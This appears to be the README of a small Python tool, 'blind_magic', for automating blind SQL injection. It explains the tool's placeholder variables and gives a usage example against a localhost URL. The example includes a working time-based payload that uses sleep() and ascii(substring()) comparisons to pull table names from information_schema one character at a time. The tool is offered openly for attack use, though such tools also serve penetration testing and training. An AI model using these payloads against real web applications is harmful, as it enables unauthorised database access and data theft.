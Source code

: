 # blind_magic 0.1.1 (first blood)  
Manual Blind SQL Injection  
  
Some trick:  
I supply to you 5 loop variables l1 to l5 {l1} {l2} {l3} {l4} {l5}  
  
Blind query statament:  
{CONDITION_QUERY}  
{QUERY}  
{OPERATOR}  
{CHAR}  
  
example:  
  
blind_magic = Blind_magic()  
blind_magic.l(13,5,0,0,0,1,0,0,0,0)  
blind_magic.url = "http://localhost/?id="  
blind_magic.base_query = "if(({CONDITION_QUERY}),sleep(1),NULL)"  
blind_magic.condition_query = "ascii(substring(({QUERY}),{l1},1)){OPERATOR}{CHAR}"  
blind_magic.query = "select table_name from information_schema.tables limit {l2},1"  
blind_magic.run()  
print blind_magic.result  
